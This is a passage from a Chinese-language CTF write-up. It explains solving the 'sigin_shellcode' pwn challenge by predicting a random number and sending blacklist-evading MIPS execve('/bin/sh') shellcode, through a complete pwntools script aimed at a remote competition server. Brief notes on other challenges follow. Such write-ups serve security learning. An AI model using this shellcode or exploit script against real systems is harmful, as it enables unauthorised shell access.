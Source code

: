 ### sigin_shellcode
没起mips环境，用中国剩余定理&z3解了下第一个随机数是47429，然后下100层刚好够买满道具  
sc长度只有四个指令，MIPS是定长所以还比较好改，后两条固定是  
`li $v0, 4011`  
`syscall 0x40404`  
前两条用于清空 $a1 和 $a2，然后第一条是`li $a1, 0x0`，第二条是板子上清空 a2的避免空字节，因为是小端所以第一条刚好截断黑名单，带上程序里已经初始化到 a0 的 `/bin/sh` 就可以了  
```python
from pwn import *

context.log_level = 'debug'
rand = 47429

p = remote("47.94.224.3", 26185)

for i in range(99):
    print(i, end=" ")
    p.sendlineafter(b'Go> ', b'1')
    p.sendlineafter(b'you want?\n', str(47429 % (i + 1)).encode())

p.sendlineafter(b'Go> ', b'3')
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Go> ', b'3')
p.sendlineafter(b'> ', b'2')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'you want?\n', b'29')

sc = b"\xff\xff\x06\x28" + \
     b"\xab\x0f\x02\x24" + \
     b"\x0c\x01\x01\x01"
p.sendlineafter(b'> ', b"\x00\x00\x05\x28" + sc)
p.sendline(b'ls')
p.sendline(b'cat flag')
p.interactive()
```

### three-body (未解出)
2.35，哈人，蹲神仙wp  

### babyaul   (未解出)
lua的菜单，炫酷，润了（）  

### p2048 （命题） 
是frank出的题，同样贴一下出题时候的wp：  

炫酷的2048小游戏  